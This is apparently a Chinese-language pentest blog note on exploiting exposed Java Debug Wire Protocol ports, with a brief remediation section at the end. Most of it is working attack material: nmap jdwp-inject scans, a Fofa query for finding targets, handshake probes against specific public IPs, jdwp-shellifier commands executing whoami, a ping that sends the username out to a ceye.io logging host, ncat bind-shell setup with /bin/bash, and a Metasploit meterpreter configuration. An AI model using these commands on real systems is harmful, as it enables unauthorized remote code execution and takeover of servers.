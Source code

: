 ```yaml
---
title: JDWP
category:
- [Kali, Exploit]

encrypt: false
enc_pwd: askding
  
tags:
  - null
date: 2020-12-04 20:22:28
top:
updated:
---
```


JDWP（Java DEbugger Wire Protocol）：即Java调试线协议，是一个为Java调试而设计的通讯交互协议，

通过该协议，Debugger 端可以和 target VM 通信，可以获取目标 VM的包括类、对象、线程等信息。
在调试Android应用程序这一场景中，
- Debugger一般是指你的 develop machine 的某一支持 JDWP协议的工具例如 Android Studio 或者 JDB，
- Target JVM是指运行在你mobile设备当中的各个App（因为它们都是一个个虚拟机 Dalvik 或者 ART），
- JDWP Agent一般负责监听某一个端口，当有 Debugger向这一个端口发起请求的时候，Agent 就转发该请求给 target JVM并最终由该 JVM 来处理请求，并把 reply 信息返回给 Debugger 端。


## 信息收集

```
>>>nmap -Pn -T4  -sV -p 2005 10.184.67.1
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-03 16:54 CST
Nmap scan report for 10.184.67.1
Host is up (0.043s latency).

PORT     STATE SERVICE VERSION
2005/tcp open  jdwp    Java Debug Wire Protocol (Reference Implementation) version 1.8 1.8.0_45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.72 seconds

不靠谱
>>>nmap -Pn -T4  -sV -p 2005  --script jdwp-exec  --script-args cmd="date"  10.184.67.1
>>>nmap -Pn -T4  -sV -p 2005  --script jdwp-info,jdwp-inject  10.184.67.1
```

## JDWP远程代码执行漏洞

telnnet 120.197.8.190 8000后，查看回显，如果出现“JDWP-Handshake”，则证明漏洞存在。

![jdwp-1](../images/jdwp-1.jpg)

### Fofa语法

语法：banner=”jdwp”

120.197.8.190

![jdwp-2](../images/jdwp-2.jpg)

### 测试是否存在

telnet/nc端口后，输入命令JDWP-Handshake  
如果返回JDWP-Handshake，证明存在漏洞。

```
{ echo "JDWP-Handshake"; sleep 20 } | telnet 221.221.221.221 10010
{ echo "JDWP-Handshake"; sleep 1 | trap exit INT} | nc 221.221.221.221 10010
```

### [IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)利用
* 远程命令执行
本地执行python [jdwp-shellifier.py](http://jdwp-shellifier.py) -t 120.197.8.190 -p 8000 --break-on "java.lang.String.indexOf" **--cmd "whoami"**

```
 ./jdwp-shellifier.py -t 10.184.67.1 -p 2005 --break-on "java.lang.String.indexOf" --cmd "whoami"
[+] Targeting '10.184.67.1:2005'
[+] Reading settings for 'Java HotSpot(TM) 64-Bit Server VM - 1.8.0_45'
[+] Found Runtime class: id=5456
[+] Found Runtime.getRuntime(): id=7f9cb41916c0
[+] Created break event id=2
[+] Waiting for an event on 'java.lang.String.indexOf'
[+] Received matching event from thread 0x5542
[+] Selected payload 'whoami'
[+] Command string object created id:5543
[-] Unexpected returned type: expecting Object
[!] Command successfully executed
```
执行whoami，显示执行成功，但是没回显，无法探知。


* 远程命令执行（回显）

本地执行python [jdwp-shellifier.py](http://jdwp-shellifier.py) -t 120.197.8.190 -p 8000 --break-on "java.lang.String.indexOf" **--cmd "ping \`whoami\`.[http://ip.port.grqjsg.ceye.io](https://link.zhihu.com/?target=http%3A//ip.port.grqjsg.ceye.io)"**

得到远程主机的用户名为：root

![jdwp-3](../images/jdwp-3.jpg)

* 反弹SHELL

安装ncat
````
./jdwp-shellifier.py -t 10.184.67.1 -p 2005 --break-on "java.lang.String.indexOf" --cmd "sudo yum install -y nc"
````

反弹shell
````
./jdwp-shellifier.py -t 10.184.67.1 -p 2005 --break-on "java.lang.String.indexOf" --cmd  "ncat -v -l -p 7777 -e /bin/bash"
````

连接shell
````
nc 10.184.67.1 7777
````


### Metasploit利用

用msfconsole启动Metasploit，并且选用exploit/multi/misc/java\_jdwp\_debugger漏洞利用模块。

```
Module options (exploit/multi/misc/java_jdwp_debugger):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a server response
   RHOSTS            10.184.67.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             2005             yes       The target port (TCP)
   TMP_PATH                           no        A directory where we can write files. Ensure there is a trailing slash


Payload options (linux/x64/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  10.184.67.1      no        The target address

```

### 修复建议

1.  关闭JDWP端口，或者JDWP端口不对公网开放
2.  关闭Java的debug模式（开启该模式对服务器性能有影响）


